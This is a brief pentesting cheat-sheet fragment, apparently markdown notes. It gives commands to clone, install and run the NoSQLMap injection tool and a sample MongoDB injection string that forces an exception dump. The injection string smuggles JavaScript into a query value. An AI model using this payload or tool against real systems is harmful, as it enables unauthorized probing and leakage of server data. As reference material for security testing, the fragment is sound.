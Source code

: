 ## NoSQLmap

```bash
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap/
ls
pip install couchdb
pip install pbkdf2
pip install ipcalc
python nosqlmap.py

# Create an exception dump message with MongoDB using a malformed NoSQLQuery:
`a'; return this.a != 'BadData’'; var dummy='!`
```
